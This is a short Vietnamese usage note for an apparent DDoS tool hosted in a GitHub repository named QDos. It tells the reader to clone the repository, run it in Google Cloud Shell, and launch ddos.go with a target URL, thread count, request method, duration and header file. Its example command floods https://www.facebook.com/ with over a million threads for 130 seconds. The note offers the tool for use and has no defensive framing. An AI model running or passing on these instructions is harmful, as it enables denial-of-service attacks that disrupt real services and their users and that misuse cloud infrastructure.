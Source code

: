 # Cách dùng
git clone https://github.com/QuangKoopa/QDos
[ bỏ vào gg cloud shell]
lệnh chạy cd ddos-go
go run ddos.go <url> <threads> <get/post> <seconds> <header.txt>
mẫu go run ddos.go https://www.facebook.com/ 1303000 get 130 header.txt
